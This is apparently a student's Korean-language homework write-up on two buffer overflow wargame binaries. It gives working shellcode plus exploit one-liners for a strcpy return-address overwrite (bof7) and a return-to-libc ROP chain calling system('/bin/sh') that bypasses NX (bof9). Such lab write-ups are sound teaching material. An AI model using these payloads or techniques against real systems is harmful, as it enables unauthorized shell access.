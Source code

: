 # GBC Security_08

## HW #8

### Buffer Overflow
---

### 1. bof7

> `strcpy()`의 취약점을 이용한다.  
> main에서 인자를 받아 vuln에 전달해주고 있다. 

![bof7](https://user-images.githubusercontent.com/47182864/61393145-4d617100-a8fb-11e9-95e4-5b2a9104675a.png)

> main으로 전달되는 인자의 길이에 따라 buf의 주소 값이 달라진다.   
> 인자 전달값이 길어질수록, stack영역은 더 밑으로 내려가기 때문에 주소값이 낮아지고 있다.
> > +) 다른 bof문제에서 위와 같은 문제가 발생하지 않은 이유?   
> > __인자 값이 아닌 입력 스트림으로 input data를 전달하기 때문이다.__
입력스트림으로 받을려면, 프로그램이 이미 시작된 상황이며, 사용자가 얼마의 data를 입력할지 모르기 때문에 heap영역을 사용하고, 그 다음 stack에 복사한다.  
> > > ex) `bof6.c` —> get()로 받는다. main 함수가 시작되고, 해당 함수로 진입한 다음 입력을 받는다. 따라서 __스택에 아무런 영향을 주지 않고, 동적 메모리를 사용한다.__


![bof7-2](https://user-images.githubusercontent.com/47182864/61393142-4cc8da80-a8fb-11e9-874b-ef97a4514072.png)

> `buf`와 `ret`의 사이의 거리는 136byte이기 떄문에, return address까지 136byte만큼의 쓰레기 값이 채워진 후, 우리가 원하는 주소값 8byte를 덮어 씌워야 하기 때문에, 해당 프로그램을 익스플로잇 하기 위해서는 144byte의 인자를 전달해야 한다.   
> 따라서, 144byte의 인자가 전달되었을 때의 `buf` 주소값을 체크한다.
> > `buf` 주소값 : `0x7fffffffe400`

![bof7-3](https://user-images.githubusercontent.com/47182864/61394204-94e8fc80-a8fd-11e9-8e2e-9c9c43821ba7.png)

> payload

```shell
NOP (1byte) + shell code (27byte) + 쓰레기 값 (108byte) + return address (8byte)
```


> 익스플로잇

```shell
./bof7 `python -c "print '\x90'+'\x31\xc0\x48\xbb\xd1\x9d\x96\x91\xd0\x8c\x97\xff\x48\xf7\xdb\x53\x54\x5f\x99\x52\x57\x54\x5e\xb0\x3b\x0f\x05' + 'x'*108 + '\x01\xe4\xff\xff\xff\x7f'"`
```
> >`\x90` : `\x90`은 `NOP`코드를 의미한다. return address의 시작이 \x00으로 null이기 때문에, 값이 들어가지 않는 것을 방지하기 위해, `NOP`코드를 1byte넣어주고, return address를 \x01로 고쳐줄 수 있다. (`NOP`코드를 더 늘려줘도 괜찮다. 단, 뒤의 쓰레기값과 리턴 어드레스를 적절하게 고쳐줘야 한다.)

> > `'x'*108` : 전체 144byte에서 nop이 1byte, 쉘코드가 27byte, 리턴 어드레스가 8byte를 차지하고 있기 때문에, 쓰레기값은 남은 108byte를 채워줘야 한다.  

> > `\x01\xe4\xff\xff\xff\x7f` : return address를 16진수로 저장하기 위해서는 \x를 사용하여 리틀엔디안 방식으로 기입해야한다.     
    
> [ result ]

![bof7-4](https://user-images.githubusercontent.com/47182864/61394206-95819300-a8fd-11e9-93b2-f0293921d050.png)

### 2. bof9

#### sum up

* NX bit(DEP) 
	- `NX bit`: 실행권한이 제거된 메모리를 절대 실행하지 않는다는 의미, Never eXecution  
	-  `DEP (Data Execution Prevention)` : 오버플로우 공격을 방어하기 위해 스택에 로드된 쉘코드가
실행되지 않도록 한 것 (윈도우 운영체제)

* NX bit(DEP)가 활성화 되어 있을 경우, 보호된 메모리 영역에서 코드를 실행이 감지되면 Accesss Violation이 발생하면서 프로그램이 종료되어 버린다. 따라서 공격자는 메모리 제어가 가능하더라도 쉘코드를 실행할 수가 없게 된다.

* RTL (Return To Libc)
	- return address 영역에 공유 라이브러리 함수의 주소로 변경해, 해당 함수를 호출하는 방식
	- 즉, 메모리에 미리 적재되어 있는 공유 라이브러리를 이용하여(libc), 바이너리에 원하는 함수가 없어도 공유 라이브러리에서 원하는 함수를 사용할 수 있는 공격 기법이다.  
	- RTL 기법을 이용하여, NX bit(DEP)를 우회할 수 있다.
	
* Gadget
	- stack pointer를 다음 함수의 주소로 이동시켜주는 코드 조각
	- ex) pop, ret과 같은 코드들의 모음

* solving idea
	1. root shell을 탈취하기 위해, 쉘을 실행시켜야 하는데, 가장 간단한 방법은 system() 함수를 이용하는 것이다. system() 함수의 주소값을 구하자.
	2. system() 함수의 주소를 구했으니, 함수 내에 들어갈 파라미터의 주소를 구해야 한다. 쉘을 실행시키기 위해, "/bin/sh"라는 문자열이 들어가야하므로, 해당 문자열의 주소값을 구한다.
	3. 우리가 원하는 형태 system(“/bin/sh”)이므로, Return rdi 레지스터가 system(“/bin/sh”)을 가리키고 있어야 한다. rdi 레지스터에 어떻게 system(“/bin/sh”) 을 전달해야할까? `Rasm2 -b x64 ‘pop rdi ; ret’`
	4. Return Address 영역에 `pop rdi, ret` 코드가 저장된 주소 값을 저장한다.
	5. Return Address를 bin/sh가 있는 주소값으로 더 덮어쓴다.
	6. pop을 하면 rsp에 있는 것을 rdi에 저장
	7. 그럼 위에 있던 bin/sh가 ret에 덮어씌워진다.
		
#### Solving 
> `buf`와 `ret`사이의 메모리 공간 크기를 구한다.

![bof9-1](https://user-images.githubusercontent.com/47182864/61397741-84d51b00-a905-11e9-9c48-c1c679a034de.png)

![bof9-2](https://user-images.githubusercontent.com/47182864/61397744-856db180-a905-11e9-8171-7cb9311d4357.png)

> `system` 함수의 주소값을 찾는다.
> > pwndbg> __p system__

![bof9-system](https://user-images.githubusercontent.com/47182864/61397750-86064800-a905-11e9-8013-0b506a506cd5.png)

> `/bin/sh` 문자열의 주소값을 찾는다.
> > pwndbg> __serarch /bin/sh__

![bof9-bin](https://user-images.githubusercontent.com/47182864/61397745-856db180-a905-11e9-9224-f0210b96b241.png)

> `pop rdi ; ret` gadget의 주소값을 찾는다.  

![bof9-ldd](https://user-images.githubusercontent.com/47182864/61397747-856db180-a905-11e9-8e0e-37186ef58d52.png)

![bof9-rop](https://user-images.githubusercontent.com/47182864/61397749-86064800-a905-11e9-95e3-a51ae9bd21ce.png)

![bof9-garget](https://user-images.githubusercontent.com/47182864/61397746-856db180-a905-11e9-9a15-af66418aceba.png)


> payload

```shell
쓰레기값 (24byte) + pop rdi ; ret 가젯의 주소 (8byte) + /bin/sh 문자열의 주소 (8byte) + system 함수의 주소 (8byte)
```

> 익스플로잇

```shell
(python -c "print 'x'*24+'\x02\xe1\xa2\xf7\xff\x7f\x00\x00'+'\x57\x9d\xb9\xf7\xff\x7f\x00\x00'+'\x90\x23\xa5\xf7\xff\x7f\x00\x00'";cat) | ./bof9
```

> [result]

![bof9-result](https://user-images.githubusercontent.com/47182864/61397748-86064800-a905-11e9-8100-c64150dacd7c.png)


---
